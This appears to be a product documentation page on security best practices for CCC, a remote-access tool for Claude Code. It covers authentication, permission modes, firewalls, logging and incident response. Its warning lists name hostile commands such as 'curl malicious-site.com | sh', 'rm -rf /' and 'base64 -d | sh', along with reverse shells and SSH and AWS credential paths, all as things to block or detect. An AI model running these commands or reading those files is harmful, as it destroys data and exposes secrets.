

## Overview

CCC provides powerful remote access to your development machine through Claude Code. With great power comes great responsibility—this guide covers security best practices to protect your code, data, and system.

<Warning>
**Critical Understanding**: CCC gives Claude Code access to your file system, terminal, and code execution capabilities. Treat security seriously, especially when exposing your backend to the internet.
</Warning>

---

## Security Layers

CCC implements defense-in-depth with multiple security layers:



Each layer provides independent protection:
1. **Network Security**: Control who can reach your backend
2. **Authentication**: Verify client identity
3. **Permission System**: Approve/deny individual operations
4. **Tool Execution**: Validate and sandbox tool use
5. **File System Access**: Restrict access to project files

---

## Authentication

### MQTT Authentication

Secure the MQTT broker with username and password.

#### Setup

```bash
# .env file
MQTT_USERNAME=admin
MQTT_PASSWORD=$(openssl rand -base64 32)

# Start backend
ccc
```

#### Password Requirements

<AccordionGroup>
  <Accordion title="Minimum requirements" icon="key">
    **Length**: At least 16 characters

    **Complexity**: Mix of:
    - Uppercase letters (A-Z)
    - Lowercase letters (a-z)
    - Numbers (0-9)
    - Special characters (!@#$%^&*)

    **Bad passwords:**
    ```
    admin123
    password
    ccc2024
    MyProjectName
    ```

    **Good passwords:**
    ```
    P7xQmK3vN9sL4tR8wY2bH5jC6dF1gA0e
    K8#mP3@nL9$tR4%wY7&jH2
    ```
  </Accordion>

  <Accordion title="Generation methods" icon="terminal">
    **OpenSSL (recommended):**
    ```bash
    openssl rand -base64 32
    ```

    **Python:**
    ```bash
    python3 -c "import secrets; print(secrets.token_urlsafe(32))"
    ```

    **Password managers:**
    - 1Password
    - Bitwarden
    - LastPass

    Generate 32+ character random passwords with maximum entropy.
  </Accordion>

  <Accordion title="Storage" icon="database">
    **DO:**
    - Store in `.env` file
    - Add `.env` to `.gitignore`
    - Use environment variables in production
    - Store backup in password manager

    **DON'T:**
    - Hard-code in source files
    - Commit to git
    - Share in plaintext (Slack, email)
    - Reuse across projects

    ```bash
    # .gitignore
    .env
    .env.local
    .env.*.local
    *.key
    *.pem
    ```
  </Accordion>

  <Accordion title="Rotation" icon="arrows-rotate">
    **When to rotate:**
    - Every 90 days (recommended)
    - When team member leaves
    - After suspected compromise
    - When sharing project access

    **How to rotate:**
    ```bash
    # 1. Generate new password
    NEW_PASS=$(openssl rand -base64 32)

    # 2. Update .env
    sed -i '' "s/MQTT_PASSWORD=.*/MQTT_PASSWORD=$NEW_PASS/" .env

    # 3. Restart backend
    ccc

    # 4. Update mobile app credentials
    # Settings → Edit Server → Update password
    ```
  </Accordion>
</AccordionGroup>

### Terminal Credentials

CCC's terminal server uses auto-generated credentials for each session.

**Credentials structure:**
```json
{
  "username": "ccc-user-abc123def456",
  "password": "7xK9mP3nL8tR4wY5jH2bC6dF1g"
}
```

**Properties:**
- **Auto-generated**: New credentials per terminal session
- **Time-limited**: Expire when terminal session ends
- **Rate-limited**: Max 5 authentication attempts per minute
- **Random**: Cryptographically secure random generation

<Tip>
Terminal credentials are managed automatically—no manual configuration needed.
</Tip>

### ngrok Authentication

When using ngrok, add HTTP basic auth or OAuth (paid plans).

**HTTP Basic Auth (ngrok.yml):**
```yaml
tunnels:
  ccc:
    proto: http
    addr: 8883
    auth: "username:password"
```

**OAuth (Pro+ plans):**
```yaml
tunnels:
  ccc:
    proto: http
    addr: 8883
    oauth:
      provider: google
      allow_domains:
        - example.com
```

---

## Permission Management

### Mode Selection

Choose the right permission mode for your security posture.

#### Security Matrix

| Mode | Security Level | Use Case | Risk Level |
|------|----------------|----------|------------|
| **Default** | High | Production, sensitive code | Low |
| **Accept Edits** | Medium | Active development, trusted projects | Medium |
| **Plan** | Very High | Code review, unfamiliar code | Very Low |
| **Bypass All** | None | Sandbox only, throwaway code | Very High |

#### Production Recommendation

**Always use Default mode** for:
- Production code
- Customer projects
- Shared repositories
- Code with credentials/secrets
- Financial or healthcare applications

```bash
ccc  # No flag = Default mode
```

<Warning>
**Never use Bypass All mode** on:
- Production code
- Code you can't afford to lose
- Repositories with sensitive data
- Shared projects
- Customer deliverables
</Warning>

### Allowed Tools Review

Periodically review your allowed tools list to remove unnecessary permissions.

**Check allowed tools:**
- Mobile app: Settings → Allowed Tools
- Backend: `.claude/settings.local.json`

**Common over-permissions:**

<AccordionGroup>
  <Accordion title="Bash in allowed list" icon="terminal">
    **Risk**: Auto-approves all bash commands

    **What it means:**
    ```json
    "allow": ["Bash"]
    ```
    Claude can run ANY command without approval:
    - `rm -rf /` (catastrophic)
    - `curl malicious-site.com | sh` (malware)
    - `git push --force` (data loss)

    **Solution**: Remove `Bash` from allowed list, approve specific commands only:
    ```json
    "allow": [
      "Bash(npm install)",
      "Bash(npm test)",
      "Bash(git status)"
    ]
    ```
  </Accordion>

  <Accordion title="Write with wildcards" icon="file-pen">
    **Risk**: Auto-approves creating any file

    **What it means:**
    ```json
    "allow": ["Write(*)"]
    ```
    Claude can write to any path:
    - Overwrite system files (if permissions allow)
    - Create malicious scripts
    - Inject code into dependencies

    **Solution**: Restrict to project directories:
    ```json
    "allow": [
      "Write(/home/user/projects/myapp/**)",
      "Write(/tmp/**)"
    ]
    ```
  </Accordion>

  <Accordion title="Read without restrictions" icon="book-open">
    **Risk**: Auto-approves reading any file

    **What it means:**
    ```json
    "allow": ["Read"]
    ```
    Claude can read:
    - `/etc/passwd` (system files)
    - `~/.ssh/id_rsa` (SSH keys)
    - `~/.aws/credentials` (cloud credentials)
    - `~/.bash_history` (command history)

    **Solution**: Restrict to project files:
    ```json
    "allow": [
      "Read(/home/user/projects/myapp/**)"
    ]
    ```

    CCC automatically allows reading project files by default.
  </Accordion>
</AccordionGroup>

### Deny by Default

CCC follows the **deny by default** principle:
- New tool uses require approval
- Approval is explicit (user clicks button)
- Timeouts default to deny
- Errors default to deny

**Never disable this by:**
- Using Bypass All mode without good reason
- Blindly approving all requests
- Adding broad wildcards to allowed list

---

## Network Security

### Localhost Binding

By default, CCC binds to all interfaces (`0.0.0.0`), allowing connections from any device on your network.

**More restrictive binding:**

```bash
# Bind to localhost only (no network access)
MQTT_HOST=127.0.0.1 ccc

# Bind to specific interface
MQTT_HOST=192.168.1.100 ccc
```

**Localhost-only use case:**
- Testing on same machine
- Running mobile app in emulator
- Maximum security (no network exposure)

**Trade-off**: Mobile devices can't connect unless using VPN or SSH tunnel.

### Firewall Rules

Configure OS firewall to restrict access.

#### macOS

```bash
# Block all incoming connections
sudo defaults write /Library/Preferences/com.apple.alf globalstate -int 1

# Allow specific port (8883) from specific IP
sudo /usr/libexec/ApplicationFirewall/socketfilterfw --add /usr/local/bin/ccc
sudo /usr/libexec/ApplicationFirewall/socketfilterfw --unblock /usr/local/bin/ccc

# Verify rules
sudo /usr/libexec/ApplicationFirewall/socketfilterfw --listapps
```

#### Linux (ufw)

```bash
# Enable firewall
sudo ufw enable

# Deny all incoming by default
sudo ufw default deny incoming

# Allow from specific IP (your phone)
sudo ufw allow from 192.168.1.50 to any port 8883

# Allow local network
sudo ufw allow from 192.168.1.0/24 to any port 8883

# Check status
sudo ufw status verbose
```

#### Windows

```powershell
# Open Windows Defender Firewall with Advanced Security
# Create Inbound Rule:
# - Rule Type: Port
# - Protocol: TCP
# - Port: 8883
# - Action: Allow
# - Profile: Private
# - Scope: Specific IPs (enter your phone's IP)
```

### SSL/TLS

CCC uses unencrypted WebSocket by default for local connections. For production or remote access, use TLS.

#### ngrok (Automatic TLS)

ngrok provides automatic HTTPS/WSS:

```bash
ccc --ngrok
# Tunnel URL: https://abc123.ngrok-free.app
```

**Benefits:**
- Valid TLS certificate
- End-to-end encryption
- No certificate management
- Trusted by browsers/apps

#### Self-Signed Certificates (Not Recommended)

For advanced users only:

```bash
# Generate self-signed cert
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# Configure CCC (requires custom build)
# Not officially supported
```

**Problems with self-signed:**
- Certificate warnings in mobile app
- Manual trust required
- Not suitable for production
- Maintenance overhead

<Warning>
**Recommendation**: Use ngrok for TLS instead of self-signed certificates.
</Warning>

---

## Data Protection

### No Cloud Storage

CCC stores all data locally—nothing is sent to cloud servers (except Claude API calls).

**What stays local:**
- Session files (`~/.claude/projects/`)
- Configuration (`.claude/`)
- Terminal history
- Permission logs
- Project files

**What goes to Anthropic:**
- Chat messages (to Claude API)
- Tool use requests/responses
- Context (file contents sent for analysis)

<Info>
See [Anthropic's Privacy Policy](https://www.anthropic.com/privacy) for how Claude API data is handled.
</Info>

### Local Session Files

Session files contain chat history and are stored locally.

**Location:**
```
~/.claude/projects/{project-hash}/{session-id}.jsonl
```

**Protection:**

```bash
# Set restrictive permissions
chmod 700 ~/.claude
chmod 600 ~/.claude/projects/*/*.jsonl

# Verify
ls -la ~/.claude/projects/
```

**Backup:**
```bash
# Backup sessions before experiments
cp -r ~/.claude ~/.claude.backup.$(date +%Y%m%d)

# Restore if needed
rm -rf ~/.claude
mv ~/.claude.backup.20241102 ~/.claude
```

**Cleanup:**
```bash
# Delete old sessions (older than 30 days)
find ~/.claude/projects -name "*.jsonl" -mtime +30 -delete

# Delete all sessions (nuclear option)
rm -rf ~/.claude/projects/*
```

### .gitignore Best Practices

Never commit sensitive files to git.

**Essential .gitignore entries:**

```gitignore
# Environment variables
.env
.env.local
.env.*.local

# Claude configuration
.claude/
.claude.backup.*

# Session files (if copied to project)
*.jsonl

# Credentials
*.key
*.pem
*.crt
credentials.json
secrets.yaml

# OS files
.DS_Store
Thumbs.db
```

**Verify before commit:**
```bash
# Check what's staged
git status

# Verify no secrets
git diff --staged | grep -i "password\|secret\|token\|key"

# Use git-secrets (recommended)
git secrets --install
git secrets --register-aws
```

---

## Terminal Security

### Auto-Generated Credentials

CCC terminal sessions use auto-generated credentials.

**Security features:**
- **Unique per session**: New credentials every time
- **Cryptographically random**: 32 bytes of entropy
- **Time-limited**: Expire with session
- **Rate-limited**: Max 5 auth attempts/minute

**Implementation:**
```typescript
// Auto-generated on session start
const credentials = {
  username: `ccc-user-${randomHex(16)}`,
  password: randomBase64(32)
};
```

### Rate Limiting

Terminal authentication is rate-limited to prevent brute force attacks.

**Limits:**
- **5 attempts per minute** per IP
- **10 minute cooldown** after 5 failures
- **Exponential backoff**: 1s, 2s, 4s, 8s, 16s

**What happens on limit:**
```
[ERROR] Too many authentication attempts. Try again in 10 minutes.
```

### Session Limits

Maximum concurrent terminal sessions per project: **5**

**Why limit:**
- Prevent resource exhaustion
- Reduce attack surface
- Encourage cleanup of old sessions

**Check active sessions:**
```bash
# Mobile app: Sessions tab → Active sessions count
```

---

## Production Guidelines

### What NOT to Do

<AccordionGroup>
  <Accordion title="Don't use Bypass All in production" icon="ban">
    **Never:**
    ```bash
    ccc --bypass-all  # In production
    ```

    **Risk**: Claude can modify/delete any file without approval.

    **Alternative**: Use Accept Edits mode if you need faster iterations, but review changes with `git diff`.
  </Accordion>

  <Accordion title="Don't use weak passwords" icon="key">
    **Never:**
    ```bash
    MQTT_PASSWORD=admin123 ccc --ngrok
    ```

    **Risk**: Trivial to brute force, especially on public URLs.

    **Alternative**: Generate strong passwords with `openssl rand -base64 32`.
  </Accordion>

  <Accordion title="Don't expose without authentication" icon="globe">
    **Never:**
    ```bash
    ccc --ngrok  # Without MQTT_USERNAME/MQTT_PASSWORD
    ```

    **Risk**: Anyone with your ngrok URL can connect and execute code.

    **Alternative**: Always set `MQTT_USERNAME` and `MQTT_PASSWORD` before using `--ngrok`.
  </Accordion>

  <Accordion title="Don't commit credentials" icon="git-alt">
    **Never:**
    ```bash
    git add .env
    git commit -m "Add config"
    git push
    ```

    **Risk**: Credentials leaked to repository history (even if deleted later).

    **Alternative**: Add `.env` to `.gitignore` BEFORE committing any code.
  </Accordion>

  <Accordion title="Don't run as root" icon="user-shield">
    **Never:**
    ```bash
    sudo ccc  # Unnecessary and dangerous
    ```

    **Risk**: Claude can modify system files, install software, create users.

    **Alternative**: Run as regular user. CCC doesn't require root privileges.
  </Accordion>

  <Accordion title="Don't blindly approve bash commands" icon="terminal">
    **Never:**
    - Approve `Bash` tool without reading command
    - Add `Bash(*)` to allowed list
    - Trust all bash commands in Bypass All mode

    **Risk**: Malicious or destructive commands execute without review.

    **Alternative**: Read each bash command carefully before approving. Look for:
    - `rm -rf` (deletion)
    - `curl | sh` (remote script execution)
    - `chmod 777` (permission changes)
    - `sudo` (privilege escalation)
  </Accordion>
</AccordionGroup>

### Production Checklist

<Steps>
  <Step title="Enable authentication">
    ```bash
    MQTT_USERNAME=admin
    MQTT_PASSWORD=$(openssl rand -base64 32)
    ```
  </Step>

  <Step title="Use Default permission mode">
    ```bash
    ccc  # No --bypass-all or --accept-edits
    ```
  </Step>

  <Step title="Configure firewall">
    Restrict connections to known IPs (your devices)
  </Step>

  <Step title="Review allowed tools">
    Remove overly broad permissions from `.claude/settings.local.json`
  </Step>

  <Step title="Set up git properly">
    Add `.env` and `.claude/` to `.gitignore`
  </Step>

  <Step title="Enable audit logging">
    ```bash
    ccc --log-level info > ccc.log 2>&1
    ```
  </Step>

  <Step title="Test security">
    Verify authentication, permissions, and network restrictions work as expected
  </Step>
</Steps>

---

## Audit & Monitoring

### Reviewing Logs

CCC logs all operations for security auditing.

**Enable logging:**
```bash
ccc --log-level info | tee ccc.log
```

**What's logged:**
- Connection attempts (success/failure)
- Authentication events
- Tool use requests (approved/denied)
- Permission changes
- Session creation/deletion
- Terminal command execution

**Example log entries:**
```
[INFO] MQTT client connected: mobile-abc123def456 from 192.168.1.50
[INFO] Permission request: Edit /src/app.ts (approved)
[INFO] Permission request: Bash(rm -rf dist) (denied)
[WARN] Authentication failed: invalid password from 192.168.1.100
[ERROR] Rate limit exceeded: 5 failed auth attempts in 1 minute
```

**Audit workflow:**

<Steps>
  <Step title="Review connection sources">
    Check all IPs that connected:
    ```bash
    grep "client connected" ccc.log | awk '{print $NF}' | sort | uniq
    ```

    Unexpected IPs? Investigate.
  </Step>

  <Step title="Review denied permissions">
    Check what was denied:
    ```bash
    grep "denied" ccc.log
    ```

    Frequent denials? Adjust workflow or investigate suspicious activity.
  </Step>

  <Step title="Check auth failures">
    ```bash
    grep "Authentication failed" ccc.log
    ```

    Multiple failures from same IP? Possible attack.
  </Step>

  <Step title="Monitor bash commands">
    ```bash
    grep "Bash(" ccc.log
    ```

    Review executed commands for suspicious activity.
  </Step>
</Steps>

### Session History

Review what Claude did in past sessions.

**Mobile app:**
1. Go to Sessions tab
2. Select a session
3. Scroll through full chat history
4. Check tool use blocks

**Backend files:**
```bash
# View session file
cat ~/.claude/projects/{project-hash}/{session-id}.jsonl | jq .
```

### Tool Usage

Track which tools Claude uses most frequently.

```bash
# Count tool uses by type
grep "Permission request" ccc.log | \
  awk -F: '{print $2}' | \
  awk '{print $1}' | \
  sort | uniq -c | sort -rn
```

**Example output:**
```
    45 Read
    23 Edit
    12 Bash
     8 Grep
     3 Write
```

**Analysis:**
- High `Bash` usage? Review commands for safety
- Unexpected `Write` usage? Check what files were created
- High `Read` usage? Normal for code analysis

---

## Incident Response

### What to Do if Compromised

<Steps>
  <Step title="Stop the backend immediately">
    ```bash
    # Kill CCC process
    pkill -f ccc
    # or Ctrl+C in terminal
    ```
  </Step>

  <Step title="Change all credentials">
    ```bash
    # Generate new password
    NEW_PASS=$(openssl rand -base64 32)

    # Update .env
    sed -i '' "s/MQTT_PASSWORD=.*/MQTT_PASSWORD=$NEW_PASS/" .env

    # Update mobile app before restarting
    ```
  </Step>

  <Step title="Review recent changes">
    ```bash
    # Check git changes
    git status
    git diff

    # Check file modifications (last 24 hours)
    find . -type f -mtime -1 -ls

    # Check new files
    find . -type f -mmin -1440 -ls
    ```
  </Step>

  <Step title="Check for malicious code">
    ```bash
    # Search for common attack patterns
    grep -r "eval(" .
    grep -r "exec(" .
    grep -r "system(" .
    grep -r "curl.*sh" .

    # Check bash history
    cat ~/.bash_history | tail -100
    ```
  </Step>

  <Step title="Reset configuration">
    ```bash
    # Backup current state
    cp -r .claude .claude.incident.$(date +%Y%m%d)

    # Reset to clean state
    rm -rf .claude

    # Next CCC start will regenerate
    ```
  </Step>

  <Step title="Review logs">
    ```bash
    # Find attack timeline
    grep -i "error\|warn\|denied" ccc.log | tail -50

    # Check auth failures
    grep "Authentication failed" ccc.log
    ```
  </Step>

  <Step title="Restore from backup if needed">
    ```bash
    # Revert to last known good state
    git reset --hard HEAD@{1.hour.ago}

    # Or restore from backup
    cp -r /backup/project/* .
    ```
  </Step>
</Steps>

### Signs of Compromise

<Warning>
Watch for these red flags:
</Warning>

<AccordionGroup>
  <Accordion title="Unexpected file modifications" icon="file-pen">
    Files changed that Claude shouldn't have touched:
    - System files (`/etc/*`)
    - Hidden files (`.ssh/*`, `.aws/*`)
    - Outside project directory
    - Binary files modified
  </Accordion>

  <Accordion title="Suspicious bash commands" icon="terminal">
    Commands that indicate malicious activity:
    - `curl malicious-site.com | sh`
    - `chmod 777 *`
    - `rm -rf /` or `rm -rf ~`
    - `nc` (netcat), `ncat`, reverse shells
    - `base64 -d | sh` (obfuscated commands)
  </Accordion>

  <Accordion title="Unusual network activity" icon="network-wired">
    Signs of data exfiltration:
    - Connections to unknown IPs in logs
    - High network traffic during Claude sessions
    - Firewall alerts for outbound connections
  </Accordion>

  <Accordion title="Multiple auth failures" icon="key">
    Brute force attempts:
    - 10+ auth failures in short time
    - From unexpected IP addresses
    - From foreign countries
  </Accordion>

  <Accordion title="Permission mode changed unexpectedly" icon="shield-xmark">
    Mode switched to Bypass All without your action:
    - Check `.claude/session-config.json`
    - Review logs for permission mode changes
  </Accordion>
</AccordionGroup>

---

## Security Checklist

Use this checklist for every CCC deployment:

### Initial Setup

- [ ] Generate strong password: `openssl rand -base64 32`
- [ ] Set `MQTT_USERNAME` and `MQTT_PASSWORD`
- [ ] Add `.env` to `.gitignore`
- [ ] Start in Default permission mode
- [ ] Test authentication works

### For Remote Access (ngrok)

- [ ] Enable MQTT authentication
- [ ] Use static domain (paid plan) for consistency
- [ ] Never use Bypass All mode
- [ ] Configure firewall rules
- [ ] Monitor ngrok dashboard regularly

### For Production Code

- [ ] Use Default permission mode only
- [ ] Review allowed tools list monthly
- [ ] Enable audit logging
- [ ] Set up git properly (no credentials committed)
- [ ] Test permission system works
- [ ] Document incident response plan

### Regular Maintenance

- [ ] Rotate passwords every 90 days
- [ ] Review logs for suspicious activity
- [ ] Check git diff after each session
- [ ] Clean up old sessions
- [ ] Update CCC to latest version
- [ ] Audit allowed tools list

---

## Next Steps

<CardGroup cols={2}>
  <Card title="Remote Access with ngrok" icon="globe" href="/advanced/remote-access">
    Set up secure remote access with authentication
  </Card>

  <Card title="Permission System" icon="shield-check" href="/features/permission-system">
    Deep dive into permission modes and allowed tools
  </Card>

  <Card title="Custom Hooks" icon="webhook" href="/advanced/custom-hooks">
    Create custom permission hooks for advanced security
  </Card>

  <Card title="Troubleshooting" icon="wrench" href="/reference/troubleshooting">
    Common security issues and solutions
  </Card>
</CardGroup>
